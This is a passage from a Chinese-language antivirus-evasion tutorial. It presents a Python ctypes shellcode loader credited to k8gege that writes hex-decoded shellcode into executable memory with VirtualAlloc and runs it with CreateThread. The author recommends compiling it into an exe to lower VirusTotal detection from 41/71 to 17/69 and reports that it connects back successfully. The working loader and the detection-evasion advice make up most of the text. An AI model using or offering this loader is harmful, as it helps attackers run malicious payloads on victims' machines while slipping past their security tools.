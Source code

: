 这里也可以直接用`scrun.exe`来直接执行hex代码，不过编译好的`scrun.exe`早就被各大杀软加特征库里了(VT免杀率41/71)，还是自己编译的好一些。

其实`ScRunHex.py`也可以编译成exe，代码需要修改一下。

```
#scrun by k8gege
import ctypes
import sys
shellcode = bytearray(("shellcode-hexcode").decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```
编译exe后执行，可正常上线，不过virustotal.com上查杀率17/69。

![772c8ae20e10f6bd888b1dbdb4370f41](images/2020.04-bypass-05/23.png)
